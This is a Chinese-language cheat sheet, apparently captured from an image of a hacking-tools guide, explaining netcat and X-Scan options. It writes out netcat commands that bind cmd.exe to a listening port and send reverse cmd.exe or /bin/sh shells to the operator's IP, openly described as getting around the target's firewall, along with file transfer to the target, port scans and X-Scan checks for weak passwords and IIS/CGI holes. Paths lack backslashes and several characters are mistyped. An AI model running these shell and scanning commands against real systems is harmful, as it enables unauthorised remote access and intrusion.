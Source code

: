 ## 系统外部命令
注：系统外部命令(均需下载相关工具)
瑞士军刀：nc.exe
参数说明：
　　-h 查看帮助信息
　　-d 后台模式
　　-e prog程序重定向，一但连接就执行[危险]
　　-i secs延时的间隔
　　-l 监听模式，用于入站连接
　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C
　　-n IP地址，不能用域名
　　-o film记录16进制的传输
　　-p[空格]端口 本地端口号
　　-r 随机本地及远程端口
　　-t 使用Telnet交互方式
　　-u UDP模式
　　-v 详细输出，用-vv将更详细
　　-w数字 timeout延时间隔
　　-z 将输入，输出关掉（用于扫锚时）
基本用法：
nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
nc -l -p 80 开启本机的TCP 80端口并监听
nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
高级用法：
nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
本机上用：nc -l -p 本机端口
在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
备 注：
　　| 管道命令
　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
八：
扫描工具：xscan.exe
基本格式
xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
检测项目
　　-active 检测主机是否存活
　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
　　-port 检测常用服务的端口状态
　　-ftp 检测FTP弱口令
　　-pub 检测FTP服务匿名用户写权限
　　-pop3 检测POP3-Server弱口令
　　-smtp 检测SMTP-Server漏洞
　　-sql 检测SQL-Server弱口令
　　-smb 检测NT-Server弱口令
　　-iis 检测IIS编码/解码漏洞
　　-cgi 检测CGI漏洞
　　-nasl 加载Nessus攻击脚本
　　-all 检测以上所有项目